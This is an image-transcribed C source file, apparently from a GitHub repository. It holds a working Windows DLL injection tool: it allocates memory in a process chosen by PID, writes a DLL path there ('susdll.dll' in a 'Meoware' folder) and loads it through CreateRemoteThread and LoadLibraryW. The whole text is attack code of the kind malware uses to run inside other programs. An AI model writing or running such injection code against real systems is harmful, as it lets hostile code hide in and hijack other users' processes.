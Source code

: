 ```c
    k32Handle = GetModuleHandleA("Kernel32.dll");
    if (k32Handle == NULL) {
        warn("Failed to Load kernel32.dll ; Got  @--0x%x", GetLastError());
        return FALSE;
    }

    fnLoadLibrary = GetProcAddress(k32Handle, "LoadLibraryW");
    if (fnLoadLibrary == NULL) {
        warn("Failed to get LoadLibraryW address; Got  @--0x%x", GetLastError());
        return FALSE;
    }

    pBuf = VirtualAllocEx(pHandle, pBuf, pSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pBuf == NULL) {
        warn("Failed to Allocate Buffer on Process Memory; Got  @--0x%x", GetLastError());
        return FALSE;
    }

    if (!WriteProcessMemory(pHandle, pBuf, DllPath, pSize, &bWrote)) {
        warn("Failed to Write on Process Memory; Got  @--0x%x", GetLastError());
        return FALSE;
    }
    info("WriteProcessMemory Success!");

    if (!VirtualProtectEx(pHandle, pBuf, pSize, PAGE_READONLY, &bWrote)) {
        warn("Unable to Change Protection on Memory");
    }
    info("Updated Memory to READONLY");

    tHandle = CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)fnLoadLibrary, pBuf, 0, &tid);
    if (tHandle == NULL) {
        warn("CreateRemoteThread failed; Got  @--0x%x", GetLastError());
        return FALSE;
    }
    
    cool("Created a Remote Thread, DLL will be injected soon");
    WaitForSingleObject(tHandle, INFINITE);

    CloseHandle(tHandle); CloseHandle(pHandle); CloseHandle(k32Handle); VirtualFree(pBuf, 0, MEM_RELEASE);

    return TRUE;
}

VOID main(int argc, char* argv[]) {

    if (argc < 2) {
        info("Usage: %s <PID>", argv[0]);
        exit(0);
    }

    WCHAR DLLPath[] = L"D:\\Meoware\\susdll.dll";
    DWORD PID = atoi(argv[1]);
    InjexDll(DLLPath, PID, sizeof(DLLPath));
    
    return 0;
}
```
